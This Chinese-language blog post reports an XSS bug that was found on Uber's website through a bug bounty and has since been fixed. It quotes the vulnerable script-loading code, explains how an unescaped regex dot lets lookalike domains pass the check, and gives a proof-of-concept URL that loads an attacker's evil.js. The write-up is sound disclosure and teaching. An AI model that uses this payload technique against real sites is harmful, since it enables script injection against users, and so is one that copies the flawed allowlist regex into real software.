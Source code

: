 ```yaml
---
layout: post
title: Bypass uber xss regex filter
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - zhchbin</p>

## 前言

&nbsp;&nbsp;&nbsp;两个月前的一天，在Hackerone上看了不少报告之后的我跃跃欲试，不自量力地给自己定下一个目标：一定要找一个能够获得Bounty的漏洞！然后，前后差不多花了三天的时候，找到了Uber网站的一个XSS漏洞。今早也顺利地收获了人生的第一笔奖金，$7000。接下来就分享一下这个漏洞吧。

## 漏洞代码

在看Uber的网站前端JS代码的时候，发现有如下的一段代码：

{% highlight javascript %}
(function() {
    var k = document.createElement('script');  // 创建script标签
    k.type = 'text/javascript';
    k.async = true;
    k.setAttribute("data-id", u.pubid);
    k.className = "kxct";
    k.setAttribute("data-version", "1.9");

    // 从location.href参数中读取kxsrc
    var m, src = (m = location.href.match(/\bkxsrc=([^&]+)/)) && decodeURIComponent(m[1]);

    // 检查kxsrc参数的值是否满足正则，如果满足则加载，否则加载默认的JS文件 
    k.src = /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test(src) ? src : src === "disable" ? "" : (location.protocol === "https:" ? "https:" : "http:") + "//cdn.krxd.net/controltag?confid=" + u.pubid;
    var s = document.getElementsByTagName('script')[0];
    s.parentNode.insertBefore(k, s);
})();
{% endhighlight %}

&nbsp;&nbsp;&nbsp;目前代码还能在：https://tags.tiqcdn.com/utag/uber/main/prod/utag.273.js 看到，不过修复之后相应的网站已经不会加载这个代码文件了。 通过阅读上面这段代码，我们能够知道参数是`kxsrc`是可以被用户控制的，而且如果满足一定条件，该参数所指定的js文件就会被加载。

## 漏洞分析

&nbsp;&nbsp;&nbsp;咋一看，这段代码似乎没有什么问题：JS文件只能是`krxd.net`域下的文件。然而，在正则表达式里：`.`代表的意思是匹配任意字符。我们来做一个简单的实验，F12打开浏览器的调试窗口：

{% highlight javascript %}
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.bkrxd.net/controltag/evil.js')
< true
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.ckrxd.net/controltag/evil.js')
< true
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.dkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.ekrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.fkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://aafkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://abfkrxd.net/controltag/evil.js')
< true
{% endhighlight %}

<img src="https://statics.symbo1.com/file/symbo1/article-images/7184df6bgw1f7otlqoccoj211i03xjsu.jpg">

## PoC

买个域名！部署一下HTTPS！写一个简单的JS文件！添加到参数里！Bingo，就是这么神奇！

{% highlight javascript %}
https://www.uber.com/?exp=hp-c&kxsrc=https%3A%2F%2Fwww.akrxd.net%2Fcontroltag%2Fevil.js
{% endhighlight %}

<img src="https://statics.symbo1.com/file/symbo1/article-images/7184df6bgw1f7otuv4e5hg20sb0k6x6p.gif">